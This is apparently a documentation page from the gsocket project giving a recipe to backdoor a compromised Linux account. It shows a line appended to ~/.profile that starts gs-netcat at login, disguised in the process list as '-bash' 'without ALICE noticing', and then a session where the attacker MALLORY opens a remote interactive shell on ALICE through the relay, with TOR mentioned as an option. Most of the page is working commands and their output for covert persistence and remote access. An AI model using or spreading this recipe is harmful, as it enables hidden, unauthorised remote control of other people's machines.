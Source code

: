 # Global Socket User Login Shell (auto-restarting)
**Connect to a firewalled host**

**Problem**  
MALLORY gained access to ALICE but does not have superuser priviledges (root). MALLORY likes to access ALICE remotely. ALICE (and MALLORY) are on two different networks and behind a NAT/Firewall. Neither of them can reach the other.  

**Objective**  
Backdoor ALICE so that MALLORY can access ALICE remotely (without tampering with the firewall, NAT or router settings) and without superuser priviledges (root).

**Solution**  
Start gs-netcat from ALICE's *~/.profile* and to so secretly without ALICE noticing.


On "ALICE" add the following line to the end of *~/.profile*. This will start the gs-netcat backdoor every time that ALICE logs in. The gs-netcat process is hidden as *-bash* and shows up as *-bash* in the process list.
```
killall -0 gs-netcat 2>/dev/null || (GSOCKET_ARGS="-s ExampleKeyXXXXChangeMe -liqD" SHELL=/bin/bash exec -a -bash gs-netcat)
```

Start the backdoor manually for testing. Thereafter the backdoor will start (and remain running) whenever ALICE logs in for the first time:
```ShellSession
alice@ALICE:~$ source ~/.profile
```

Now log in from "MALLORY" to "ALICE":
```ShellSession
m@MALLORY:~ $ gs-netcat -s ExampleKeyXXXXChangeMe -i
=Secret         : "ExampleKeyXXXXChangeMe"
=Encryption     : SRP-AES-256-CBC-SHA-End2End (Prime: 4096 bits)
alice@ALICE:~$ id
uid=1001(alice) gid=1001(alice)
alice@ALICE:~$
```

There are other ways to start a backdoor. This is an example.

Many more gs-netcat options are available: For example *-T* to connect via TOR. See the manual page of gs-netcat. 
